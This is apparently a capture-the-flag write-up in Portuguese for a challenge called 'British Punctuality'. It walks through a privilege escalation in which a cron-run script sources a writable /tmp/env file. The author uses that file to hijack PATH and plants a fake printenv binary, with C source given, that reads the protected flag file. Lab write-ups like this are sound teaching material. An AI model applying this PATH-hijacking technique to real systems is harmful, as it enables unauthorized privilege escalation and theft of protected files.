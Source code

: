 # British Punctuality

Verificamos que não temos permissão para abrir diretamente o ficheiro `flags/flag.txt`, mas o utilizador "flag_reader" tem:

![CTF Opcional 1 a](../img/ctfopcional1a.png)

No diretório "/tmp" existe um ficheiro "last_log.txt" que é atualizado todos os minutos, com permissões de flag_reader, através do **cronscript** (/etc/cron.d/mycronscript) seguinte:

```note
* * * * * flag_reader /bin/bash -c "/home/flag_reader/my_script.sh > /tmp/last_log"
```

Verifica-se que este quando este script é executado, este por sua vez executa `/home/flag_reader/my_script.sh`, e o output é guardado em `/tmp/last_log`. O conteúdo de `my_script.sh` é o seguinte:

```bash
#!/bin/bash

if [ -f "/tmp/env" ]; then
    echo "Sourcing env"
    export $(/usr/bin/cat /tmp/env | /usr/bin/xargs)
    rm /tmp/env
fi

printenv
exec /home/flag_reader/reader
```

Podemos ver que, se o ficheiro `/tmp/env` existir, vai ser executado o seu conteúdo como um comando shell usando **xargs**. Posteriormente, serão impressas as variáveis de ambiente através do **printenv**. Assim, podemos alterar a variável de ambiente PATH (para apontar para o diretório com um printenv controlado por nós), colocando o seguinte texto no ficheiro `/tmp/env`:

```note
export PATH=/tmp/myenv/
```

Criando o diretório `/tmp/myenv/`, podemos criar um binário printenv dentro que execute um código controlado por nos

Manipulação do printenv através de um ficheiro c

```c
#include <stdlib.h>
#include <string.h>
int main() {
    char command[25]="cat ../../flags/flag.txt"; 
    system(command); 
    return 0;
}
```

```
